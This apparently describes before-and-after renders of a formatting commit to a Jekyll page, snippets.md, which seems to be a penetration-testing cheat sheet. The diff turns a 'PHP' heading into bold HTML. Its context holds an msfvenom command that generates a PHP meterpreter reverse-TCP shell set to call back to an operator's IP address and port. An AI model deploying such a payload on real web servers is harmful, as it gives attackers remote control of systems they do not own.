

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 720 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -20,7 +20,7 @@ Once the required values are completed the following command will execute your h
 <br/>
 
 #### ./ Scripting Payloads
-###### PHP
+<b>PHP</b>
 ```bash
 msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
 ```
````
